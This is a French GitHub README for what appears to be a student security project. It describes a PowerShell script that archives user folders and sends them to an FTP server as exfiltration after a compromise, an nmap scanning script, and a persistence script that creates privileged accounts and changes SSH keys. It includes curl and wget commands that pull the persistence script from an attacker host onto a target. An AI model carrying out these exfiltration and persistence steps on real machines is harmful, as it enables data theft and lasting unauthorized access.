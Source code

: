 # Soc-project

Ce script permet d’extraire les données utilisateurs d’une machine. 
Il va détecter les différents dossiers utilisateurs et créer une archive qui sera ensuite déposée sur un serveur 
FTP. 
Ce script permet en cas de compromission d’une machine de récupérer les dossiers des utilisateurs, identifie des chemins spécifiques, les compresse dans un fichier d'archive, puis pousse le fichier vers un serveur FTP.

## Prérequis script 1 - Exfiltration de données

Le module PSFTP n'est pas un module PowerShell standard il faut cependant l'installer.
Pour installer ce module exécutez la commande :  Install-Module PSFTP

Une fois le module installé, vous pouvez utiliser la cmdlet Import-Module pour l'importer dans votre script : Import-Module PSFTP

Après avoir installé et importé le module, vous pouvez continuer à exécuter le reste de votre script, qui comprend la récupération des dossiers des utilisateurs, la compression de chemins spécifiques dans un fichier d'archive et la poussée du fichier vers un serveur FTP.

Un autre prerequis est nécessaire dans notre cas.

Installer FILEZILLA 
Dans un cas reél le serveur FTP serait en ligne mais comme nous sommes en local, FileZilla nous servira d'un serveur FTP.


![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/Capturefile.PNG)

![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/Capture1.PNG)

Deux fichier vont se créer : TEMP ET PULL

![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/MicrosoftTeams-image%20(1).png)

Dans le dossier TEMP, on aura toute l'extraction de la machine.
Dans le dossier PULL, aura toute l'extraction du serveur FTP (cas reel sa sera sur internet et pas en local)

![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/MicrosoftTeams-image%20(2).png)

Ici, vous voyez bien que tout mon bureau a été transferer sur le serveur FTP.

Cependant, je vous ai montrer un exemple avec l'extraction d'un bureau ou des document.
Vous pouvez également mettre le chemin d'une clé USB/disque.


## Script 2 - Scan nmap

 Les scripts Nmap fournissent une fonctionnalité supplémentaire et permettent d'automatiser certaines tâches de découverte de réseau, d'analyse de sécurité et de collecte d'informations.
 
 Usage : Lancer le script sur une machine Kali : https://github.com/NoorXmnr/Soc-project/blob/main/scan.sh
 
 ![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/Capture%20nmap.PNG)
 
 ![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/Capture%20nmap%20dossier%20implicaction.PNG)
 
 
 
 ## Script 3 - Persistance
 
 Ce script permet de maintenir l'accés au systéme compromis, méme si le système est redémarré ou si les informations d'identification sont modifiées.
 Ce script inclut également la création de nouveaux comptes ou la sécurisation de l'accès via SSH.
 
 # Fonctionalités
 - Créer un utilisateur local
 - Privilèges élevés
 - Modifier les clés SSH
 
 # Utilisation 
 
 Depuis Github : https://github.com/NoorXmnr/Soc-project/blob/main/Cr%C3%A9ation%20d'utilisateurs%20avec%20privil%C3%A9ges.sh
 
 Depuis le réseau local : 
 # Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh #or
curl <Host>:8000/persistence.sh > persistence.sh #or
wget <Host>:8000/persistence.sh
sh persistence.sh -h
 
 
